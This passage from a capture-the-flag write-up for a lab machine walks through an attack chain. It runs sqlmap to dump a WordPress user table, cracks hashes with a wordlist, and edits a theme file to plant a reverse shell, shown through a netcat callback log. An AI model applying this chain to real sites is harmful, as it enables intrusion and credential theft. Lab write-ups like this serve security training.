 This definitely seems like there is something to abuse here. So lets intercept the request and then use sqlmap to look for vulnerabilites. Upon completion we are presented alot of information but most interesting is the following
 ```
 Database: wordpress
Table: wp_users
[4 entries]
+------+---------------------------------+------------------------------------+-------------------+------------+-------------+--------------+---------------+---------------------+-----------------------------------------------+
| ID   | user_url                        | user_pass                          | user_email        | user_login | user_status | display_name | user_nicename | user_registered     | user_activation_key                           |
+------+---------------------------------+------------------------------------+-------------------+------------+-------------+--------------+---------------+---------------------+-----------------------------------------------+
| 1    | http://site.wekor.thm/wordpress | $P$Bo{Hash}31B. | admin@wekor.thm   | admin      | 0           | admin        | admin         | 2021-01-21 20:33:37 | <blank>                                       |
| 5743 | http://jeffrey.com              | $P$BU{Hash}j10 | jeffrey@wekor.thm | wp_jeffrey | 0           | wp jeffrey   | wp_jeffrey    | 2021-01-21 20:34:50 | 1611261290:$P$BufzJsT0fhM94swehg1bpDVTupoxPE0 |
| 5773 | http://yura.com                 | $P$B6{Hash}SV/ | yura@wekor.thm    | wp_yura    | 0           | wp yura      | wp_yura       | 2021-01-21 20:35:27 | <blank>                                       |
| 5873 | http://eagle.com                | $P$Bp{Hash}QY/ | eagle@wekor.thm   | wp_eagle   | 0           | wp eagle     | wp_eagle      | 2021-01-21 20:36:11 | <blank>                                       |
+------+---------------------------------+------------------------------------+-------------------+------------+-------------+--------------+---------------+---------------------+-----------------------------------------------+
```

We can go ahead and crack 3 of these hashes with rockyou except for the admin one, it is important to note also the presence of a subdomain site to access the wordpress site
so lets add this to our hosts file and then navigate to the page

# site.wekor.thm/wordpress
Here we find the wordpress site that we dumped users for above. We can find the login panel at /wp-admin, so lets try our credentials that we managed to crack
We find that wp_jeffrey is just a simple user, however when moving on to wp_yura we find it has admin privileges and can access the admin panel so lets insert a reverse shell on one of the pages and then use it to gain a foothold
appearance->theme editor-> 404.php
{insert reverse shell}
navigate to /wp-content/themes/twentytwentyone/404.php with our listener up
```
listening on [any] 4242 ...
connect to [10.13.1.12] from (UNKNOWN) [10.10.203.59] 50206
Linux osboxes 4.15.0-133-generic #137~16.04.1-Ubuntu SMP Fri Jan 15 02:55:05 UTC 2021 i686 i686 i686 GNU/Linux
 16:31:20 up  2:55,  0 users,  load average: 0.06, 0.01, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
whoami
www-data
```
